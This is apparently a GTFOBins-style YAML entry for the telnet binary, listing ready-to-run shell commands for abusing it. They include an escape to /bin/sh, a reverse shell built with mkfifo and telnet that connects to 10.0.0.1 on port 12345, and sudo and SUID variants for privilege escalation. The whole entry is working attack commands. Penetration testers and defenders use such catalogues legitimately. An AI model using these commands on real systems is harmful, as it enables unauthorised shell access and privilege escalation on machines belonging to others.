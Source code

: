 ```yaml
---
functions:
  exec-interactive:
    - description: BSD version only.
      code: |
        RHOST=www.google.com
        RPORT=80
        telnet $RHOST $RPORT
        ^]
        !/bin/sh
  reverse-shell:
    - description: Run `nc -l -p 12345` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=12345
        TF=$(mktemp)
        rm $TF
        mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/bash 1>$TF
  sudo-enabled:
    - description: BSD version only.
      code: |
        RHOST=www.google.com
        RPORT=80
        sudo telnet $RHOST $RPORT
        ^]
        !/bin/sh
  suid-limited:
    - description: BSD version only.
      code: |
        RHOST=www.google.com
        RPORT=80
        ./telnet $RHOST $RPORT
        ^]
        !/bin/sh
      
---
```

